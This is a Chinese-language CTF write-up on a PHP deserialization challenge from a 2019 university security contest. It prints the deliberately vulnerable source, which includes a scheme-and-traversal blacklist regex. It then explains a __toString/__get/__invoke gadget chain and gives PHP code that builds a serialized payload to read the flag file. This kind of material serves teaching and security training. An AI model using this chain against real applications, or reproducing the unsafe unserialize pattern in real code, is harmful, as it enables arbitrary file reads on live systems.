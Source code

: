 ```yaml
---
title: 2019京津冀大学生安全挑战赛 php反序列化小题
date: 2019-09-20 00:00:00
categories:
- CTF/Web
tags: php反序列化 
---
```


## 题目

非常非常简单一道小题，手快抢了一血

```php
<?php
error_reporting(1);
class Read {
    private $var;
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}


class Show
{
    public $source;
    public $str;
    public function __construct($file='index.php')
    {
        $this->source = $file;
        echo $this->source.'解析开始'."<br>";
    }
   
    public function __toString()
    {
        $this->str['str']->source;
    }

    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }

    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params = array();
    }

    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

unserialize($_GET['a']);
?>
```

## 解法

根据Show类中过滤的内容猜测flag在fllllllaaaaaag.php中，访问了一下果然有，所有读到这个文件的源码即可。

首先，Show类和Read类可以读文件，Show有过滤先看Read：

- file_get函数可以读文件
- __invoke函数中调用了file_get函数
- __invoke魔术方法会在当这个对象被当做函数调用的时候会执行

然后看Test类：

- Test类的__get方法会去把一个变量当做函数去调用
- __get方法会在访问类中一个不存在的成员时被调用

最后看Show类：

- __toString方法中回去访问一个source成员
- __toString方法会在对象被当做字符串的时候被调用
- __wakeup方法中会检查对象中source的恶意字符
- __wakeup方法会在对象反序列后调用

所以解法很明显了：

- 直接给Read类的私有成员var赋值为"fllllllaaaaaag.php"
- new一个Read类对象a
- new一个Test类对象b，让b的params成员为a
- new一个Show类对象c，让c的str成员时一个Array，其中有一个键为'str'的对应值是b
- new一个Show类对象d，让d的source是c
- 序列化对象d即为payload

```php
<?php
class Read {
    private $var="fllllllaaaaaag.php";
}

class Show
{
    public $source;
    public $str;
}

class Test
{
    public $params;
}

$a = new Read;
$b = new Test;
$b->params=$a;
$c = new Show;
$c->str=array('str'=>$b);
$d = new Show;
$d->source=$c;
$payload = serialize($d);
echo base64_encode($payload)
?>
```